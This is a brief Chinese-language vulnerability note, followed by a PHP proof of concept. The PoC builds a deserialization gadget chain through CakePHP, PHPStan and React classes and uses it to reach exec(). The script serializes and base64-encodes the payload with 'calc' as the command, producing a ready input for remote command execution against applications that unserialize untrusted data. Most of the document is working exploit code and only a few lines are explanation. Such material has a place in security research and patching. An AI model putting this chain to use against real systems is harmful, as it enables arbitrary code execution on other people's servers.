

在\_execute方法中，$mapper和$val和$key均可控，通过php的exec()便可执行命令.

下面是一个简单的 POC 示例：

```
<?php

  namespace Cake\Collection\Iterator;

use IteratorAggregate;
use ArrayIterator;

interface CollectionInterface {}

class MapReduce implements IteratorAggregate, CollectionInterface
{
  protected $_mapper;
  protected iterable $_data;

  public function __construct($mapper, iterable $data)
  {
    $this->_mapper = $mapper;
    $this->_data = $data;
  }

  public function getIterator()
  {
    return new ArrayIterator($this->_data);
  }

  public function process()
  {
    $results = [];
    foreach ($this->_data as $item) {
      if (is_callable($this->_mapper)) {
        $result = call_user_func($this->_mapper, $item);
        $results[] = $result;
      }
    }
    return $results;
  }
}

namespace Cake\ORM;

class BehaviorRegistry
{
  protected array $_methodMap = [
  '__tostring' => ['exec', 'getIterator']
  ];
  protected array $_loaded = [];

  public function __construct(\Cake\Collection\Iterator\MapReduce $mapReduce)
  {
    $this->_loaded['exec'] = $mapReduce;
  }
}

class Table
{
  protected \Cake\ORM\BehaviorRegistry $_behaviors;

  public function __construct(\Cake\ORM\BehaviorRegistry $behaviors)
  {
    $this->_behaviors = $behaviors;
  }
}

namespace PHPStan\PhpDocParser\Ast\Type;

class ConstTypeNode
{
  public $constExpr;

  public function __construct($constExpr)
  {
    $this->constExpr = $constExpr;
  }
}

namespace React\Promise\Internal;

final class RejectedPromise
{
  private $reason;

  public function __construct($reason)
  {
    $this->reason = $reason;
  }
}

use Cake\ORM\BehaviorRegistry;
use Cake\ORM\Table;
use Cake\Collection\Iterator\MapReduce;
use PHPStan\PhpDocParser\Ast\Type\ConstTypeNode;

$mapReduce = new MapReduce('exec', ["calc"]);
$behaviorRegistry = new BehaviorRegistry($mapReduce);
$table = new Table($behaviorRegistry);
$constTypeNode = new ConstTypeNode($table);
$rejectedPromise = new \React\Promise\Internal\RejectedPromise($constTypeNode);
$serialized = serialize($rejectedPromise);
$base64Encoded = base64_encode($serialized);
echo $base64Encoded;
```
